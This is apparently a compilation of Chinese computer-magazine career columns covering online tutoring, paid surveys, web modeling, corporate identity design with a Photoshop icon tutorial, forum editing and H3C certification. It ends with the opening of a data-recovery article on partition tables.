本期的文章结束了，同时这个网编系列的文章也正式结束。每期的内容都是实打实的网编实用技巧，希望能给大家带来最大的帮助。

## 艺林闲话

“简单即是美”。上例的设计，结构布局还可以。不过背景图片的应用使得整个作品显得很凌乱。修改后的效果如图5所示，背景图替换成渐变，既简单干净，又有变化。另外原作中的文章导读字体使用的是仿宋，与整体设计很不协调，并且也不方便阅读。所以建议改为黑体。其他就是一些细节上的调节与润色。

设计时，还要考虑到介质问题。比如普通纸张，设计元素中不宜大面积用色。如果因设计需要不得不大面积铺背景色，最好不要用纯黑，而要用70%甚至更浅的灰，以避免印刷时纸张透墨。另外因为黑白刊中没有彩色，所以选择的图形的亮度反差要尽量大一些，否则会导致看不清楚的问题。

还有要注意的是，在有背景的图片上叠加文字时，如果文字颜色与背景太接近，这时要对文字做一些处理，比如勾边、加投影等，否则容易与背景混在一起难以辨认。

距离不是问题，网络家教很方便

方便和便宜是网络家教最大的优势。当你还在去学生家的路途上奔波，一些先行者已经通过网络在家中舒适地开展远程家教，月入上千元了……

发挥特长，即时通信工具上课生意旺

老读者深圳的小姜注册了一家淘宝店EasyEnglish，已经接了30多单网络家教生意了。顾客来自全国各地：北京、上海、湖南、湖北、山东、广东……“我是做外贸的，师范院校毕业，已经通过英语专业八级考试，口语不错。”

- 教学内容：英语口语、商务英语
- 顾客特征：上班族居多，也有在校学生
- 教学工具：Skype音频通话
- 教学过程：买家联系到小姜，沟通基本学习情况和要求，然后根据情况选择上课内容。教材可以是新概念等标准教材，也可以是小姜准备的电子版资料，甚至纯练口语无需教材。教学内容的文字可以通过传递。
- 收费标准：一般一节课1个小时（多为晚上），最长90分钟，每小时收费为18元~25元。初次上课开始可试听10分钟左右，一般顾客都会满意，有的顾客经常上课，有的上几次就OK了。
- 第一桶金：半年前，一个深圳买家说想提高口语，让小姜教教他，共上了4次课，当时价格最便宜，每小时10元。从此网络家教经验逐渐丰富。

果果：做网络家教需要注意什么？

小姜：具备较高的专业知识，因人施教，还有就是时间安排问题。要对买家负责，1个小时的课，备课少则半小时。

果果：本身是老师是否更有优势？

小姜：可能吧，不过也未必，老师太强调书本知识，而忽略了实际的应用。他们大多缺少英语实战经验。我在公司大量接触商务英语，每次老外来都是我来翻译。因为工作较忙，我做网络家教就是业余时间玩玩，最近还开了个拍拍店，顺便卖些英语资料，如果通过其他论坛推广自己的服务，估计生意会更好。

果果：如何运用网络资源学好英语？

小姜：有些人学习资料太多，不会积极地学以致用。要找到合适自己水平的学习网站或论坛，养成每天浏览学习的好习惯。还可以去一些好的国外视频网站去看新闻，如www.nytime.com，www.cbsnews.com，CBS evening news视频节目可以练自己的听力。

小提示：哪些科目更适合网络家教？

如果用QQ语音等即时通讯工具，外语口语类网络家教最合适，因为对于板书、演算等依赖较少。有人认为视频会分散注意力，但少数教师认为视频练习口语效果更好，而且摄像头也可对非电子文字的交流进行辅助传输。数理化等网络家教更多的是面向应试教育，而非商用。如果借助第三方网络教育平台，可以较方便地进行多媒体电子板书演示，但一般需交一定比例的中介费。如果只使用即时通讯工具，也是可行的。而音乐、美术等演示性强的课程，就不太适合网络家教。

在职教师，多媒体教学平台更专业

四川的高级教师王老师（网络教师代号scwq）1991年本科毕业后，一直从事高中数学教学工作。多年带毕业班，教学经验丰富。一年多前，他联系网络家教平台加入了网络教师队伍，现在利用晚上空闲时间辅导学生。他上课的收费为每小时30元，根据内容不同有浮动。学生在线充值按时长扣费，教师收入平台管理费扣15%，采用月结形式，月收入上千元。

安装软件平台后，热心的王老师向果果发出了进入网络教室的邀请，进行一对一授课。这个小小的网络教室里，教师可以用手写板输入文字——相当于黑板；可以配合讲解在线播放自己制作的多媒体课件——相当于投影；学生有疑问可以在平台上直接文字交流——举手提问。当然，软件也提供语音功能，不过效果不稳定，王老师通常关闭此功能后用QQ语音进行授课。

“我的学生来自全国各地，一个武汉的学生从高一就开始找我上课，我一直给他超前教学，现在高三的他已经开始自己总复习了。我力求讲课生动，打比方、举例子，而且对高考的要求把握得比较好。”关于备课问题，王老师表示教材就在心中，如果是做高考试卷，学生先自己做完，然后把疑难问题发过来。课件也是他的长期积累（还获得省级一等奖），不用刻意准备。学生是否会借上网找家教为由沉迷网络？从实际情况来看，来在线学习的都是对学习有积极追求的，自控能力不错，家长比较放心。

经过观察，这类平台里教师不少，多为在职教师，也有大学生。提供的网络家教范围很广，除了中小学各科外，还有成人教育辅导等等。市场广阔，如果你有这方面的条件和兴趣，赶紧报名成为网络教师，足不出户就能通过传道授业赚钱啦！

全国计算机等级考试（National Computer Rank Examination，简称NCRE）是经原国家教育委员会（现教育部）批准，由教育部考试中心主办，面向社会，用于考查应试人员计算机应用知识与技能的全国性计算机水平考试体系。开考15年来，全国超过3000万人次参加了NCRE考试。

调客，吊起你的网赚胃口

坐在电脑前，等待发到邮箱的调查问卷；填写问卷，每做一份问卷就能收入几元到几十元不等，这样的好事你相信吗？网络时代，许多事情都不再是奇迹，一起来当“调客”吧，足不出户就能赚到零用钱！如果你肯花时间，方法得当，月入上千元不是问题！

做“散户”赚小钱

广东湛江的志宾是格子店的店主，同时也是一名兼职“调客”。两年前的一天，他在网上搜索兼职，偶然搜到了一条填写调查问卷便能获得奖励的信息。于是志宾报名并填写了问卷，本来只想试试而已，但没过几天他的支付宝里真的多出钱来。“第一次拿到3美金的奖励时激动啊！虽然只是20块钱，但起码证明自己的努力没有白费。”志宾这样描述了第一次做调客获得奖励后的心情。赚钱虽不多，但从此志宾有了动力，经常上网填一些零散的调查问卷。

网络大补贴：可寻找到调客信息的网站

| 名称 | 网址 | 特点 |
|------|------|------|
| 调客网 | http://www.freesurveyasia.com/cn/index.aspx | 注册填写邮发问卷可获得现金奖励，推荐网友参与调查可获得额外奖励 |
| 中智库玛 | http://www.51poll.com/member/index.asp | 注册填写邮发问卷可获得积分奖励，推荐网友参与调查可获得额外奖励，积分到一定程度可兑换现金 |
| 猪八戒网等威客类网站 | http://www.zhubajie.com | 需自行搜索调查问卷业务，与调查发起人取得联系后方可填写问卷获得现金报酬 |
| 58网络兼职网 | http://www.58.com/wenjuandiaocha | 找到适合业务，与调查发起人联系后方可填写问卷，获得报酬，部分为线下调查 |
| 各类兼职网站 | 在搜索引擎中键入“调客”，搜索博客、论坛可得网址 | 一般为大型调客网站的推广链接，参与此种问卷调查不仅自己可获奖励，博主或论坛楼主也能获得相应额外奖励 |

从“散户”到“专业调客”

志宾成为“专业调客”是从看到一个博客开始的。该博客介绍了一个调客网站，说推荐网友参与网站的调查也能赚钱。于是志宾开始尝试通过E-mail、QQ、MSN、论坛、博客、网站等做起调客推荐来。他注册的调客网站必须要被推荐的人完成问卷才能获得奖励。推广难度比较大，但是奖励十分诱人：直接推荐的人中有10人完成问卷就有10美元的额外奖励。

“为了这诱人的奖励，我辛苦了两个月。其间很多次想放弃，但又心有不甘。于是我给自己制定了目标——每天至少推广10人以上，总结每天的推广经验埋头苦干，两个月下来，推广人数竟然上升到了2000多！最终努力没有白费！（见图1）”

奖励之外的收获

除了现金奖励，志宾还从调客这个兼职中获得了不少知识和经验。“我填写过很多的商业调查问卷，内容涉及医疗器械、汽车使用、广告态度、媒体接触习惯等等，从中学到了不少专业调查方法。”为了填写一些性价比较高的问卷，志宾还会查找相关资料，拓宽自己的知识面。

两年来接触了众多调客网站，志宾早已练成了“火眼金睛”：“我一看就知道哪个是真哪个是假！”他对网赚的警觉也随之提高：“我觉得自己已经不会那么容易被表面利益所吸引。”现在已经做营销工作的志宾仍做着调客，问及原因，他说：“通过网络把调查问卷推荐给网友做，也算是一种营销技巧训练吧。其间还交到了不少朋友。”

调客经验之谈

鑫浪：我曾经注册了一个调客网站，等了几个月才收到一份问卷，做完之后还没收到钱，说是要积累到一定金额才能支付。

志宾解答：有的网站要求会员花钱买一个账户，或是吹嘘每天能赚上百块，那一定就不可靠。

小刘：要申请成为调客网站的会员，就要详细填写自己的个人信息。一些网站不仅需要提供姓名、性别、学历等基本信息，还需要填写个人收入和行业职位等（见图2）。我最担心的就是这些信息外泄。其实调客网站越是专业，申请加入时要填写的信息就越详细。不仅如此，提交后还需多次邮件激活或填写激活问卷，账号才能使用。太过简单的注册过程往往是假冒网站的标志。

通过填写各类网络调查问卷或推荐网友加入调查赚取奖励，称为“调客”。无论你是大学生、公务员还是企业白领等等，只需每天抽出部分休闲时间，只要有足够的耐心，找到信誉好的网站，总结经验，坚持下去，就能同时收获金钱和知识，何乐而不为？

（天津/杨红）

网络模特 时尚网店的一把火

果果：我终于发现，淘宝里藏着如此巨大的网络模特市场，网店中那么多可爱的模特其实就是我们身边的普通人。欢迎加入时髦的网模大军，有人帮你免费拍写真，还有不错的报酬哟！

谁可以当网络模特

也许有人会有这样的疑问：淘宝、拍拍里的时尚服饰店里，那些靓丽的模特来自哪里？莫非是最近热播的CCTV电视模特大赛里的专业人士？错了。其实网络模特要求并不高，只要有个性，或许你也能胜任（如果有漂亮女友更不要错过）。

福建的“八旗铺”（http://shop33598080.taobao.com/）从2006年开始给一家厦门的电子商务公司做网络模特。“大家以为网络模特需要个子高。其实女孩1.65米就够了，有的知名网络模特还不到1.6米，男模的话1.75米就算很高了。要知道，网店卖的都是大众尺码，太高的模特反而不合适。但是对于体重有要求，越瘦越上镜，比如我们公司就要求女孩最好在43公斤以下。此外，还要符合公司的产品风格，如果五官精致，表现力强就更好了。”

上海的摄影师小七和朋友合伙开了一个外贸服装店（http://shop58469926.taobao.com），走模特街拍路线，首页明示：“所有图片全部由timesyet模特及实物拍摄，不是来自所谓官网和韩国网站！”清新的网店风格让人眼前一亮，开店几个月来营业额蹭蹭地上涨。小七挑模特有自己的标准：“要自信、有气质，在镜头前不紧张。最好找传说中的‘九头身’——身长相当于九个头的长度。”他招聘网络模特的程序一般是，先看一张特写、一张全身照，然后约到公司试拍。如果镜头感好，照片表现效果完美，就可以开始合作。“与我们店密切合作的女孩yoyo是在校大学生，一天我在大街上看到她就觉得她会成为出色的网络模特。后来沟通很顺利，我也当了一把‘星探’！”

网络模特如何工作

在一般人眼中，模特工作充满了神秘——专业摄影棚、高级摄影师，还有化妆师、服装师、助理等等。那么网络模特呢？“八旗铺”揭秘了有趣的网模工作过程。最令人震撼的是，她一天要拍60套衣服！拍摄前一天，在助理的帮助下把衣服、裙子、裤子、鞋、包、饰品等搭配试穿、熨平做好准备；拍摄当天自己化妆，穿好打底的吊带和紧身裤方便换装，一套搭配拍20张左右就接过助理的衣服半分钟换装，配合摄影师在各种场景前拍摄，多为街拍。“刚开始当网络模特，一定要提前在镜子前练习各种pose，免得到时候摄影师说换下个pose，自己还呆呆的会很尴尬。逐渐有了经验，和摄影师配合越发默契，拍摄速度和质量会不断提高。拍摄完成后，一般需要调整亮度、细节美化、打水印等处理（防止盗图）。现在‘八旗铺’不再做全职网模了，她有了自己的网店，货源之一就是原来工作的公司。隔一段时间会兼职给原公司当模特，酬劳是每天两三百元。“我喜欢自由，我为公司拍的照片自己网店也能用，一举两得。”

从什么途径走上网模之路

网络模特的招聘途径很多，一般是网店店主在店铺首页发招聘启示，或者通过论坛发信息，所以通过搜索不难找到。

还有一些网络模特平台，比如杭州的一位热心女士最近开通了http://www.wangdian6.com，在淘宝论坛发消息招聘，很多人报名，经过筛选的候选人照片、部分资料放在专门的平台展示，用人单位如有意向，该平台免费提供网络模特资料。“现在淘宝的大卖家越来越多，需求也会越来越大，还有电子商务B2C公司也有这种需求，我对网模市场非常乐观！”

网络模特，活跃在网络店铺上的精灵，普通的你，其实有独特的魅力。试试吧！

小提示：网模收入知多少？

其实，网络模特的收入与类别是紧密相关的。

- 店主自己当网模：这种形态是最广泛存在的，在淘宝“网络模特”（http://www.taorun.com/luntan/thread-171257-1-1.html）等大赛中，众多美女模特店主大量涌现。由普通展示到自己试穿，从业余摄影到专业摄影，从默默无闻到钻石、皇冠，这就是美女效应。
- 根据招聘启事报名的兼职网模：报酬一般是按天结算的，约为200~300元不等，条件特别出色的可上500元。
- 在网上出名后被店主邀请的网模：比如最近很火的郭大宝（http://shop57485404.taobao.com），因为一组组个性搞笑照片被广泛转载，人气很旺，原本只是为了为网店产品做宣传，没想到不少人找他担任网络模特，外地的网店邮寄服装过来，他在南京和自己的摄影师合作拍摄，然后把照片传过去，一单薪酬是上千元的。另一位重庆的网模“呛口小辣椒”知名度甚高，薪酬不菲。

平面设计师生存手册：企业里的平面设计

除了报刊、杂志、网站等，企业其实也是平面设计师们的一个非常大的雇主。不少大型企业里有自己专门的设计部门，但更多的企业是将设计项目委托给外部设计公司来做。不管是在企业内或企业外，对平面设计师来说都是机会。今天我们就来聊聊相关话题。

芝麻开门

CFan：平面设计中的 CI 究竟是什么意思？
业内人士：CI是英文 Corporate Identity System 的缩写，即企业识别系统。CI设计的目的，一是标识一个企业以与其他企业相区别，另外就是确保不管换谁来设计企业的宣传产品，都能保持协调一致。

CI的内涵有很多说法，对平面设计师来说，一般就是指运用视觉设计手段，通过标志造型、字体设计、特定色彩等表现手法，使企业的经营理念、精神文化、产品包装等形成一个整体形象。

1908年，德国设计师彼得·贝伦斯开发了世界上最早的整套企业标识系统。1950年，美国杂志上首现CI术语。上世纪80年代末，CI被引入我国并开始盛行。

CFan：时常听到 CI、VI 等概念，非常容易混淆。它们有什么联系？
业内人士：完整的CI系统，主要由MI（Mind Identity，企业理念）、BI（Behavior Identity，行为规范）、VI（Visual Identity，视觉设计）三大部分构成。企业理念经由行为规范，延伸出各种VI产品。对于平面设计师来说，参与最多的也是VI设计这一部分。

任务实战

CFan：VI设计的核心是什么？
业内人士：VI设计就是在企业理念、精神文化的支配下，运用视觉传达方法，通过标志符号等展示企业形象。VI设计的核心是标志（或商标）、标准字体、标准色，其中又以标志最为关键。

实战：谷歌浏览器图标的诞生

在CI系统中，MI是隐性的类似人的思想，VI是显性的类似人的外表，MI是VI的内核。所以在承接VI设计任务之后，首先要和企业相关人员进行充分的沟通，深入理解企业的经营理念、精神文化等（即MI），找出MI与VI的最佳结合点。一般企业在委托他人进行VI设计时，至少会给出企业名称、产品信息、设计要求（如希望展示什么样的内涵等）及项目内容等。

接下来就是具体的设计阶段。大多数设计师喜欢先在稿纸上画出草图，再在软件中实现。具体软件工具，有用Photoshop的，有用CorelDraw的，有用Illustrator的，视各人的偏好。下面的实例，是在Photoshop中制作谷歌浏览器（Google Chrome）图标的过程，从中我们可以学到不少技巧。（原文：http://tinyurl.com/7y8mbv）

首先启动Photoshop（本例以CS3为例），点击菜单“文件→新建”，新建一个宽高皆为854像素、分辨率为72像素/英寸的文档。设置前景色为灰色，然后右击工具箱中的矩形工具，从弹出菜单中选择椭圆工具，配合Shift键画一个正圆形作为谷歌浏览器图标的底层。右击此形状图层，选择“混合选项”打开图层样式对话框，勾选左侧“渐变叠加”，样式设置为“径向”，渐变颜色设置为从#DED8D8到#7F7777，即可产生一个球体形状。

新建一个图层，并按上面的方法用椭圆工具再画一个同样大小的圆形，但是不用加图层特效，两个圆的位置也要完全重合。更简单的方法，则是将上一步中制作的形状图层复制，然后删除它的图层特效即可。确保在新的形状图层中工作，选中钢笔工具（快捷键为P），再在上方工具栏中选中“从形状区域减去（-）”模式，然后用钢笔工具勾画所需的形状。我们会发现，勾画出的形状好像剪去了图形的一块，可以透视到底层的图像。

为新形状图层设置图层样式，选择“斜面和浮雕”。接着将这个图层再复制一份，并拖放到下一层中，然后删除此图层样式，设置颜色为#4E4A4A，最后使用自由变换工具（快捷键为Ctrl+T），均匀缩小图层，产生阴影效果。

创建一个新图层，使用标准画笔工具（快捷键为B）为图标的扇区部分上色。涂色的时候不用太严谨，大致的区域涂到就可以了，完成后按住Alt键，在新图层和形状图层之间单击以创建剪贴蒙版，颜色会自动和形状吻合的。

将带有斜面和浮雕效果的图层复制一份，删除图层样式，再适当旋转一下它的位置（通过Ctrl+T键）。把它拖放到形状层和阴影层之间。然后再新建一个图层，按照上一步中的方法为扇区着色。再将为表面扇区上色时的颜色图层复制一份，使用加深和减淡工具画上一些高光和阴影。

用椭圆工具在图标的中心画一个圆形并将它拖放到顶层之下，为它设置投影、内阴影、渐变叠加（颜色为蓝色，从#B1DEF4到#2D8EDF）等图层特效。接下来再图标中心位置画上环状的高光，使用之前的方法，选择“从形状区域减去（-）”模式，用椭圆工具画上圆形路径进行切割，并为此图形添加半透明渐变叠加效果。将此图层移到高光阴影的那一层之上，按住Alt键并在此两图层之间点击以创建剪贴蒙版。最后用椭圆工具绘制高光效果，进行润色后，谷歌浏览器图标就制作完成了。

当然，图标设计完成后，还要经过不同层次的多次调研，再通过反馈意见进行反复修改，最后才能完全定型并应用到软件界面、网页、名片、信纸、手提袋、易拉宝等实际VI产品中。

艺林闲话

VI手册的编制

标志设计虽然是VI的核心，但并不是VI的全部。VI项目设计完成后，还需要通过编制VI手册将其系统化。VI手册一般要包括：

1. 概念的诠释
如CI概念、设计概念、设计系统的构成及内容说明，以及企业理念体系说明和形象概念阐述，手册使用方法和要求等等。
2. 基本设计项目的规定
主要包括各设计项目的概念说明和使用规范说明等，如企业标志的意义、定位、色彩规定、标志变化及具体禁止使用的例子等。
3. 应用设计项目的规定
主要包括各设计项目的设计展开标准、使用规范和样式、施工要求和规范详图等，如事务用品类的字体、色彩及制作工艺等。

## 另类的网编：论坛编辑

前面几期和大家探讨了一些关于网络编辑方面的经验与日常工作中的小技巧，今天再来和大家探讨一下不同类别编辑的工作内容与情况。本文主要探讨的是社区论坛编辑（简称论坛编辑）。

应该说社区论坛编辑，是网络编辑中比较特殊的一个群体，因为大部分网络编辑，做的都是文字方面的工作，而论坛编辑做的却是与人打交道的工作，不仅仅要在网上管理论坛，有些论坛编辑还要策划线下活动。因此工作难度也是比普通网络编辑要大的，当然职业前景也是非常好的。在收入上论坛编辑由于也属于网络编辑，所以收入水平也一样，根据公司规模不同低到1500元，高到上万元的都有。下面呢，和大家一起说说论坛编辑平常工作中的三个主要内容及相关的技巧。

### 论坛版块的策划

策划论坛版块，是建立论坛的第一步，这项工作虽然不是长项工作，不需要天天做，但是对于社区论坛编辑来说，却是非常重要的一项任务。因为其关系到以后的发展。当然应聘论坛编辑这个岗位时这个步骤是不用大家操心的，但是在论坛改版时它们都是非常有用的经验。

论坛的版块在于精，而不在于多，特别是对于一个新论坛，或是人气不高的论坛，千万不要追求版块的数量。很多朋友有一个误区，在人气上不来时，以为增加很多新鲜的版块就会提升人气，殊不知情况正好相反，这样做的结果反而是进一步导致人气下降。原因很简单，比如说一个日发帖量3000的论坛，如果只有10个版块，那平均每个版块每天有300的发帖量，人气显得很高，每个版块的帖子基本上也都会及时得到会员的回应，会极大提升用户的信心。但是如果有100个版块，那平均每个版块才30帖，每个帖子发出后，基本就是没人响应的情况，时间一久，用户的热情就会下降。

什么样的版块才算是精品版块呢？很简单，特色版块、人气版块、用户喜欢的那版。那如何建立精品版块呢？可以从四方面入手：

- **1. 网站主题入手**：有很多论坛，是依附在主站下面的，只是主站的一个频道。比如爱好者论坛，就是爱好者网站的一个频道。所以在这种情况下，先考虑网站的主题特色与需求，往往都是相辅相成的。比如爱好者网，主站和杂志的强项是系统与软件，那论坛自然要加强这方面的建设，特色也基本上是这块。
- **2. 从用户需求入手**：如果目标用户群共性很多，需求比较明确，那就可以从用户需求入手。比如说对于一个电影论坛，其目标用户的需求很明确，各种各样的片源下载，特别是最新的大片。所以这类论坛通常下载版块都是非常有人气的。
- **3. 所在领域入手**：对于涉及领域比较特殊的论坛，可以直接从所在领域特点入手。比如说行业论坛，通常新手问答、行业资源下载都是其特色版块。再比如地方论坛，通常线下聚会、本地新闻等版块都是其热点所在。
- **4. 从自身资源入手**：如果上面几条都找不到切入点，也可以从自身的资源去找。如果是公司论坛，那就整合一下公司资源。比如公司里可能技术高手很多，那就搞高手坐堂、技术培训这样的版块。如果是个人论坛，就从自身长处找突破口。比如自身很擅长组织活动，且这方面的资源丰富，那线下活动版块就应该是重点。

### 论坛团队的建设与管理

论坛管理团队的建设与管理，是论坛编辑主要的工作内容之一，而且也是非常核心的工作之一。只有建立了一支高效、优秀的版主队伍，论坛才能够得到高速和良性的发展。在团队建设这块，笔者将多年的经验总结成了三大制度与四大原则，希望对大家有所帮助。

第一制度：纳新原则。新版主的招收，应该有明确的制度与原则，不能凭感情用事。比如说对于注册时间、等级应该有明确要求，不达标的坚决不要。像笔者以往的从业经历中，遇到过很多这样的情况：一个刚注册的新人，就吵着嚷着要做版主，会直接抨击版主招收要求，会说一堆自己符合的理由。但是真提升成为版主之后就会发现，两三天之后这人就失踪了，QQ上找他，他大概连登录名都忘了。还有一种情况是，新人来了很活跃，可能一周就能发个一两千篇帖子，但是往往这样的人后劲不足，可能一年多后，其总发帖量还是和第一周差不多。

除了上面说的，再重点强调一条，尽量不要去主动拉人做版主。往往拉来的人，都不会成为一个合格的版主。

#### 第二制度：奖惩制度。

版主团队要有严格的奖惩制度。这个不需多说，每个论坛几乎都有这样的制度，主要注意的事项有两点：一是制度要尽量合理，制定制度的时候，尽量多征求团队成员的意见。即使制度确定后，如果执行的过程中发现有不合理的地方，也要及时修正。二是一定要严格执行。笔者发现，有制度不能得到良好的执行，是很多论坛的通病。

#### 第三制度：晋升制度。

一个完整的论坛管理团队等级构架通常是这样的：实习版主→版主→分区版主→超级版主→总版主→副管理员→管理员。大家可以看到，等级是很分明的，而越往上，重要度也越高。那对于重要的论坛高层职位，如何确定人选呢？这就需要大家建立一个完善的晋升制度，越是职位高的职务，越要严格把关。个人建议高层职位，只从管理团体内部晋升，不要直接从外面招人或是拉人。

- **第一原则：把版主当哥们看。** 一定不要把版主当下属看，其实论坛版主是最伟大的一群人，不求回报，甘于奉献。所以一定要把他们当成朋友哥们、兄弟姐妹去相处。只有真心对待别人，别人才能真心对待我们。
- **第二原则：无团队精神的坚决不要。** 没有团队精神，喜欢个人英雄主义的人，坚决不要。即使这个人能力很强，也尽量不要，因为他一个人，可能会让整个团队都散了人心。而对于论坛来说，仅靠一两个人的力量是绝对做不大的。
- **第三原则：理念不同的坚决不要。** 所谓物以类聚，人以群分。每个团队，都有其自己独特的理念与精神。如果对方不认同我们的理念，甚至其认知正好与我们相反，那千万不要接受其加入团队的申请。理念不同的，往往都是内部矛盾的开始。
- **第四原则：人品不好的坚决不要。** 这条的影响是最严重的，同时也是比较难以发现的，所以大家在招收版主时，千万要睁大眼睛，最好先设置一个审核期，同时多多考虑其他成员的意见和反馈。

### 活动的组织

论坛编辑第三项重要的工作，就是经常组织各种活动了，主要是以线上的为主。关于活动这块，给大家提四点建议。

- **活动形式要多样**：多准备一些活动形式，这个很容易，多去看其他论坛的活动就OK了，不要就那么一两种活动不停地做，比如T楼活动，偶尔T一下，大家很喜欢。但是如果天天T，用户就可以烦了。
- **要面向大人群**：活动要针对大人群做，如无特殊情况，不要面向小众。比如说只针对某一职业的会员单独做活动。
- **准入门槛要低**：不要把活动的参与方法设计得太复杂，或是难度太高，这样可能会导致没有人参加活动。
- **鼓励用户发起活动**：人民的力量是无穷的，所以多多地引导和鼓励用户及各版块版主自己去组织活动吧。

### 制度的建立

除了以上三项比较重要和常态的工作外，剩下的工作就是论坛的运营了。笔者认为论坛的运营主要就是建立各种完善的制度和规则，然后让论坛及论坛内的用户，在这些规则和制度内，能够良性地发展与成长。主要包括以下五方面：

- **用户等级**：社区论坛都有等级，通常是根据用户的积分来划分。比如爱好者论坛：刚注册的会员叫乞丐，积分高了一点后，叫贫民。大家在运营论坛时，对于用户等级的处理一定要慎重，最好不要用默认的，要根据自身的特点去设定等级，个人认为等级数越多越好，晋升条件应该是越往后越难，其实这个就像网络游戏一样，前期升级容易了，才会让用户玩得有兴趣。后面升级难了，才会让用户感觉有挑战性。
- **奖惩制度**：和前面说的奖惩制度有所不同，此处说的是针对会员方面的。关于奖惩制度不多说了，只强调一点，一定要根据自身的实际情况制定和不停完善。并严格执行，千万不要直接从别的论坛复制、粘贴敷衍了事。
- **勋章系统**：很多论坛都没有把勋章系统给真正利用起来，甚至有的论坛根本就没有勋章。其实勋章是大有益处的，因为每个人都有荣誉感，渴望得到群体的认同，所以一套合理的勋章系统，将极大地促进论坛的人气与粘性。
- **经济体系**：论坛内有了完善的经济体系，用户才有理由和动力长期在这里互动。否则灌水时间长了，谁都会感觉乏味。经济系统的建立有两块，一是论坛金币的获得应该是多渠道的，且应该合理。比如论坛默认值通常都是发一个主题帖两个金币。但是这样显然不合理，原创主题和灌水主题的价值显然是不应该是一样的，所以应该有区分。二是消费项目要多。赚来了金币没有地方花也是不行的。所以这就需要论坛编辑人员多想一下消费的项目，比如说购买论坛道具、购买金币、下载论坛内的优秀资源、在一些特定的版块需要付费发帖等。
- **任务系统**：任务系统是最后一年才开始出现的论坛功能，以前是没有的。但是经过笔者测试发现，这个系统对论坛的帮助真的是特别大。因为就像网络游戏中的任务体系一样，丰富多彩的任务，增加了论坛的娱乐性和可玩性，论坛可玩的东西多了，粘性与人气自然就提高了。

（大锅饭）

## 搞定H3C华三认证

向高层次迈进

企业招聘的高峰期到了，由于网络普及和规模增大，不少企业都增加了网络方面的工作岗位。在中华英才网、51job等知名的招聘网站中，网络工程师、通信工程师、系统管理工程师等网络方面的职位众多。那么，要想从事这些岗位，需要学习哪些知识，拥有哪些敲门砖呢？

大家都知道，在中国的网络市场上，思科和华三产品占了百分之九十多。在招聘网站上，不少公司都要求应聘者熟悉思科或者华三等网络设备，当然，拥有相应的认证更有说服力。前一阶段我们持续刊登了教育部考试中心独家供稿的全国计算机等级考试系列辅导，上期我们请专家向大家介绍了思科认证，思科认证除CCNA外为全英文，门槛有些高；那么本期我们再来了解另一个比较重要的认证——H3C（华三）认证，它的学习和认证全部为中文。它有哪些特征？我们如何轻松攻破它呢？

### 网络认证各领风骚

网络方面的认证，国内有很多，如网络工程师、计算机等级考试、思科网络认证等等，每种认证适合不同的人群。

#### 网络工程师（软考）：

由人力资源和劳动保障部组织，属于政府组织的官方考试，考试通过后政府部门和国有企事业单位可以评定职称（与工资挂钩）。推荐将要进入或者已经进入这些单位的人员参加考试，该考试考察综合能力，纯笔试。

#### 计算机等级考试三级网络：

由教育部考试中心组织，适合于非专业人员参与，考察综合能力，笔试和机试相结合，相对容易通过。

#### 思科网络认证：

理论和实践并重，门槛较高，除了CCNA之外其他的认证，学习和考试均为英文，理论知识较深，强调理论和实践相结合，基础不好的同学学习起来比较吃力。

#### H3C认证：

从原来的华为3com认证发展而来。2008年，H3C在中国的交换机和企业级路由器市场份额排名第一，运营商WLAN设备、网络安全设备、IP存储市场份额均为第一。由于其产品市场份额高，所以其认证也深受企业欢迎。H3C认证及培训突出学以致用的理念，特别强调实用性和学生的动手能力。H3C的教材及考试为全中文，课程难度循序渐进，对于基础稍差的学员，也能够理解和掌握。截至2008年底，已有90000余人次接受过H3C培训，逾55000人次获得H3C认证证书。

### H3C认证体系中你点哪道菜

从体系上来说，H3C的认证体系分3大块：技术认证体系、专题认证体系、销售认证体系。技术认证体系是主认证体系，非常类似于思科的认证体系，是认证的重点。H3C提供了从网络助理工程师到网络专家的四级技术认证体系。

对于将要毕业的同学来说，建议大家学习H3CNE认证，H3CNE认证属于网络工程师认证，与思科的CCNA对应，是事实上的入门级的认证。H3CNE认证主要定位于中小型网络的规划、设计、配置与维护，适合目前就业市场的需要。H3CNE认证为全理论考试。

如果你有一定的网络经验、熟悉华三的产品，那么可以尝试冲击H3CIE认证（H3C网络排错专家），这是H3C最高级别的认证，考试要靠真功夫，不能仅凭侥幸，因为即使你侥幸通过笔试，等待你的还有实验考试和技术面试。

### 高效学习轻松考试一点通

H3C的考试机构和考试类型都比较多，其主流的考试均为理论考试，对于H3C的学习来说，可以选择自学、培训机构、或者网院学习。

如果有合适的实验环境，可以选择自学，自学的主要费用是购买教材，华三的教材价格很贵，建议大家可以下载教学的幻灯片，幻灯片的内容和教材一致。由于网络技术更新很快，华三的教材也会进行同步更新，千万不要学习老版本的内容哦。

学习的另一个途径是参加华三的授权培训中心，目前H3CNE认证的学费大概需要1200元，培训中心的培训质量良莠不齐，建议大家仔细挑选。

通过网院学习也是不错的方法，华三的网院位于各个高校，教学和设备条件都比较好，费用一般只有几百元。网络学院结业后，学员还可以申请考试优惠券，如H3CNE认证考试原价135美元，优惠价40美元，另外，H3C公司在每个网络学院都设有网络人才奖金和助学金，考试在850分以上的学员及家庭贫困学员可以申请相关奖金。

华三非常强调实践动手能力，所以大家要克服传统学习中动脑不动手的思路，一定要多动手、勤练习。由于其教材的理论性不是很好，建议大家可以配合思科的教材进行学习，如果你想提前看看考试的题型，没问题，H3C网站上提供了模拟考试。

（河南/赵建超）

## 速成数据恢复工程师：从分区表中找回数据

到本期为止，速成数据恢复工程师系列即将告一段落。在这个系列中，我们了解到不少行业内幕，并且请专业人士为我们演示了许多实际案例，希望这些能对大家了解这一行有所帮助，更希望这一系列能成为你进军数据恢复这个行业的一个起点。毋庸讳言，要进入这一行的技术门槛相对来说是比较高的，不过也正因为有“技术壁垒”，一旦进入，也是“钱”途无量（当然风险相应也大），今天，再一次请飞客的聂阳给我们演示通过修复分区表找回数据的例子，为这一系列画上完美的句号。在此，再一次感谢聂阳MM对我们的大力协助。

### 芝麻开门

填写分区表进行数据恢复，适用于很多情况：分区丢失、分区表遭到破坏、误删除、误格式化、意外断电、软件错误、引导代码丢失、“55AA”标志损坏、主分区表损坏等等，当硬盘容量较大，比如160G或以上时，使用填写分区表的方式修复数据，可以更加迅速和精准。

在没有人为因素改变分区的情况下，因意外而导致的磁盘显示分区丢失、分区显示未格式化等，应该首先检查主分区表是否损坏，通过查看现有分区表描述的各个分区的前后关系是否合理，跳转到分区起始扇区查看是否为正常的DBR来判断故障原因。

